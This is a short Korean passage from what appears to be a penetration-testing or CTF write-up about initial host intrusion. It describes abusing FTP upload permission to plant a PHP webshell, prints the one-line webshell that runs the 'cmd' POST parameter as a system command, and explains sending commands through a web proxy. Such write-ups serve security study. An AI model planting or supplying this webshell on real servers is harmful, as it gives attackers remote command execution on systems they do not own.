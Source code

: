 ![](Pasted%20image%2020240728005202.png)


### 취약점 공격 및 호스트 초기 침투


따라서 FTP서버의 파일 업로드 권한을 이용하여 임의의 악성파일인 php 웹쉘 파일을 업로드하여 실행할 수 있다. 

```php
# Webshell.php 코드
<?php system($_POST['cmd']) ?>
```

업로드가 된 파일 경로로 직접 접속하여 `cmd` 파라미터 값에 시스템 명령어를 입력하여  응답값을 받는다. POST 메소드를 이용하여 요청하기 위해 웹 프록시를 이용한다.

![](Pasted%20image%2020240728005534.png)
